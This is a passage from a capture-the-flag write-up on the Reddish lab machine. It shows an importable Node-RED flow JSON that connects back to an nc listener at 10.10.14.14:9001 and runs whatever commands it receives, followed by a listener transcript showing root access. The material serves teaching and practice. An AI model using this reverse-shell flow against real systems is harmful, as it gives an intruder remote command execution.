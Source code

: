 ### Flows

In playing around with the editor, I built a few useful flows that will
help with exploitation of Reddish. Flows show up nicely as images, but
can also be imported/exported in json. I'll provide the json for my
flows in case you want to import and play with them. Just go to the
menu, import, clipboard, and paste in the json.

### Simple Command Shell

The first flow I wrote was a simple loop that would connect back to a
`nc` listener, and then execute whatever it received and return the
results:

![](/img/1532601840168.png)

It will initiate the connection when the the flow to output `>` is sent
to stdin of the tcp connection. The TCP connection will come back to me.
Then whatever I send back is sent to `exec`. The output of that is
formatted and a prompt is added, and then sent back into the TCP
connection, where I'll receive it. Here's the export:



    [{"id":"3f7824bc.483a94","type":"tab","label":"Shell","disabled":false,"info":""},{"id":"9754e73a.fb7f5","type":"tcp request","z":"3f7824bc.483a94","server":"10.10.14.14","port":"9001","out":"sit","splitc":" ","name":"","x":520,"y":80,"wires":[["df9367ea.2fd12"]]},{"id":"df9367ea.2fd12","type":"exec","z":"3f7824bc.483a94","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":170,"y":240,"wires":[["7cd3aeef.1a522"],["7cd3aeef.1a522"],[]]},{"id":"6a48f346.ccad1c","type":"inject","z":"3f7824bc.483a94","name":"","topic":"","payload":"> ","payloadType":"str","repeat":"","crontab":"","once":false,"onceDelay":0.1,"x":191.5,"y":50,"wires":[["9754e73a.fb7f5"]]},{"id":"7cd3aeef.1a522","type":"template","z":"3f7824bc.483a94","name":"results + prompt","field":"payload","fieldType":"msg","format":"handlebars","syntax":"mustache","template":"{{{payload}}}\n> ","output":"str","x":440,"y":240,"wires":[["9754e73a.fb7f5"]]}]



On pushing the button, I got a callback and could start to look around:



    root@kali# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51766
    > id
    uid=0(root) gid=0(root) groups=0(root)

    > pwd
    /node-red

    > ls /home
    node

    > ls /home/node



### Callback Shell
